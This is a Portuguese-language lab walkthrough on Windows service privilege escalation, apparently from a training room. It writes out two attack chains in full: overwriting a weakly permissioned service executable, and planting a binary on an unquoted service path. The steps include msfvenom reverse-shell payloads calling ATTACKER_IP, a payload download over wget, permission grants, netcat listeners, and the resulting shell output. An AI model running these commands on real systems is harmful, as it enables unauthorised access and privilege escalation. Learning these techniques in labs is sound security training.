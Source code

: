 ```yaml
---
tags:
  - EXPLOITATION
  - Windows
---
```



Os serviços do Windows são gerenciados pelo **Service Control Manager (SCM)**. O SCM é um processo encarregado de *gerenciar o estado dos serviços conforme necessário*, verificando o status atual de qualquer serviço e, em geral, fornecendo uma maneira de configurar os serviços.

==Cada serviço em um computador Windows terá um executável associado que será executado pelo SCM sempre que um serviço for iniciado==. É importante observar que os executáveis de serviço implementam funções especiais para poderem se comunicar com o SCM e, portanto, não é qualquer executável que pode ser iniciado como um serviço com êxito. Cada serviço também *especifica a conta de usuário* sob a qual o serviço será executado.

Para entender melhor a estrutura de um serviço, vamos verificar a configuração do serviço apphostsvc com o comando sc qc:

```powershell
C:\> sc qc apphostsvc
```

Aqui podemos ver que o executável associado é especificado por meio do parâmetro BINARY_PATH_NAME, e a conta usada para executar o serviço é mostrada no parâmetro SERVICE_START_NAME.

Os serviços têm uma lista de controle de acesso discricionário (DACL), que indica quem tem permissão para iniciar, parar, pausar, consultar o status, consultar a configuração ou reconfigurar o serviço, entre outros privilégios. A DACL pode ser vista no Process Hacker (disponível na área de trabalho de sua máquina):

![[Pasted image 20231222212510.png]]

Todas as configurações de serviços são armazenadas no registro em `HKLM\SYSTEM\CurrentControlSet\Services\`:

![[Pasted image 20231222212534.png]]

Existe uma subchave para cada serviço no sistema. Novamente, podemos ver o executável associado no valor ImagePath e a conta usada para iniciar o serviço no valor ObjectName. Se uma DACL tiver sido configurada para o serviço, ela será armazenada em uma subchave chamada Security. Como você já deve ter adivinhado, apenas os administradores podem modificar essas entradas de registro por padrão.

# Permissões inseguras no executável do serviço

Se o executável associado a um serviço tiver permissões fracas que permitam que um invasor o modifique ou substitua, o invasor poderá obter os privilégios da conta do serviço de forma trivial.

Para entender como isso funciona, vamos analisar uma vulnerabilidade encontrada no Splinterware System Scheduler. Para começar, consultaremos a configuração do serviço usando sc:

```powershell
C:\> sc qc WindowsScheduler
#[SC] QueryServiceConfig SUCCESS

#SERVICE_NAME: windowsscheduler
#        TYPE               : 10  WIN32_OWN_PROCESS
#        START_TYPE         : 2   AUTO_START
#        ERROR_CONTROL      : 0   IGNORE
#        BINARY_PATH_NAME   : C:\PROGRA~2\SYSTEM~1\WService.exe
#        LOAD_ORDER_GROUP   :#
#        TAG                : 0
#        DISPLAY_NAME       : System Scheduler Service
#        DEPENDENCIES       :
#        SERVICE_START_NAME : .\svcuser1
```

Vemos que o serviço instalado pelo software vulnerável é executado como svcuser1 e o executável associado ao serviço está em `C:\Progra~2\System~1\WService.exe`. Em seguida, verificamos as permissões do executável:

```powershell
icacls C:\PROGRA~2\SYSTEM~1\WService.exe
#C:\PROGRA~2\SYSTEM~1\WService.exe Everyone:(I)(M)
#                                  NT AUTHORITY\SYSTEM:(I)(F)
#                                  BUILTIN\Administrators:(I)(F)
#                                  BUILTIN\Users:(I)(RX)
#                                  APPLICATION PACKAGE AUTHORITY\ALL APPLICATION PACKAGES:(I)(RX)
#                                  APPLICATION PACKAGE AUTHORITY\ALL RESTRICTED APPLICATION PACKAGES:(I)(RX)

#Successfully processed 1 files; Failed processing 0 files
```
E aqui temos algo interessante. O grupo Everyone tem permissões de modificação (M) no executável do serviço. Isso significa que podemos simplesmente sobrescrevê-lo com qualquer carga útil de nossa preferência, e o serviço o executará com os privilégios da conta de usuário configurada.

Vamos gerar uma carga útil de serviço exe usando o msfvenom e servi-la por meio de um servidor da Web em python:

```shell
user@attackerpc$ msfvenom -p windows/x64/shell_reverse_tcp LHOST=ATTACKER_IP LPORT=4445 -f exe-service -o rev-svc.exe

user@attackerpc$ python3 -m http.server
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...  
```

Em seguida, podemos extrair a carga útil do Powershell com o seguinte comando:

```powershell
wget http://ATTACKER_IP:8000/rev-svc.exe -O rev-svc.exe
```

Quando a carga útil estiver no servidor Windows, substituiremos o executável do serviço pela nossa carga útil. Como precisamos de outro usuário para executar a carga útil, também devemos conceder permissões totais ao grupo Everyone:

```powershell
C:\> cd C:\PROGRA~2\SYSTEM~1\

C:\PROGRA~2\SYSTEM~1> move WService.exe WService.exe.bkp
        1 file(s) moved.

C:\PROGRA~2\SYSTEM~1> move C:\Users\thm-unpriv\rev-svc.exe WService.exe
        1 file(s) moved.

C:\PROGRA~2\SYSTEM~1> icacls WService.exe /grant Everyone:F
        Successfully processed 1 files.
```

Iniciamos um listener reverso em nosso computador do atacante:

```shell
user@attackerpc$ nc -lvp 4445
```

E, por fim, reinicie o serviço. Embora, em um cenário normal, você provavelmente teria de aguardar a reinicialização do serviço, você recebeu privilégios para reiniciar o serviço por conta própria para economizar tempo. Use os seguintes comandos em um prompt de comando cmd.exe:

```powershell
C:\> sc stop windowsscheduler
C:\> sc start windowsscheduler
```

Observação: o PowerShell tem sc como um alias para Set-Content, portanto, você precisa usar sc.exe para controlar os serviços com o PowerShell dessa forma.

Como resultado, você obterá um shell reverso com privilégios svcusr1:

```shell
user@attackerpc$ nc -lvp 4445
#Escutando em 0.0.0.0 4445
#Conexão recebida em 10.10.175.90 50649
#Microsoft Windows [Versão 10.0.17763.1821]
#(c) 2018 Microsoft Corporation. Todos os direitos reservados.

C:\Windows\system32>whoami
#wprivesc1\svcusr1
```

# Caminhos de serviço não cotados

Quando não podemos escrever diretamente nos executáveis de serviço como antes, ainda pode haver uma chance de forçar um serviço a executar executáveis arbitrários usando um recurso bastante obscuro.

Ao trabalhar com serviços do Windows, ocorre um comportamento muito específico quando o serviço é configurado para apontar para um executável "não citado". Por "não citado", queremos dizer que o caminho do executável associado não está devidamente citado para levar em conta os espaços no comando.

Como exemplo, vejamos a diferença entre dois serviços (esses serviços são usados apenas como exemplos e podem não estar disponíveis em seu computador). O primeiro serviço usará uma citação adequada para que o SCM saiba, sem dúvida, que deve executar o arquivo binário apontado por `"C:\Program Files\RealVNC\VNC Server\vncserver.exe"`, seguido pelos parâmetros fornecidos:

```powershell
C:\> sc qc "vncserver"
```

Lembre-se: O PowerShell tem "sc" como um alias para "Set-Content", portanto, você precisa usar "sc.exe" para controlar os serviços se estiver em um prompt do PowerShell.
Agora vamos dar uma olhada em outro serviço sem a devida citação:


```powershell
C:\> sc qc "disk sorter enterprise"
[SC] QueryServiceConfig SUCCESS
```

```powershell
C:\>icacls c:\MyPrograms
```

O grupo BUILTIN\\Users tem privilégios AD e WD, permitindo que o usuário crie subdiretórios e arquivos, respectivamente.

O processo de criação de uma carga útil de serviço exe com o msfvenom e sua transferência para o host de destino é o mesmo de antes, portanto, fique à vontade para criar a carga útil a seguir e carregá-la no servidor como antes. Também iniciaremos um ouvinte para receber o shell reverso quando ele for executado:

```shell
user@attackerpc$ msfvenom -p windows/x64/shell_reverse_tcp LHOST=ATTACKER_IP LPORT=4446 -f exe-service -o rev-svc2.exe

user@attackerpc$ nc -lvp 4446
```


```powershell
C:\> move C:\Users\thm-unpriv\rev-svc2.exe C:\MyPrograms\Disk.exe

C:\> icacls C:\MyPrograms\Disk.exe /grant Everyone:F
        Successfully processed 1 files.
```

```shell
C:\> sc stop "disk sorter enterprise"
C:\> sc start "disk sorter enterprise"
```

Como resultado, você obterá um shell reverso com privilégios svcusr2:

```powershell
user@attackerpc$ nc -lvp 4446
Listening on 0.0.0.0 4446
Connection received on 10.10.175.90 50650
Microsoft Windows [Version 10.0.17763.1821]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Windows\system32>whoami
wprivesc1\svcusr2
```

Vá para a área de trabalho do svcusr2 para recuperar um sinalizador. Não se esqueça de inserir o sinalizador no final desta tarefa.

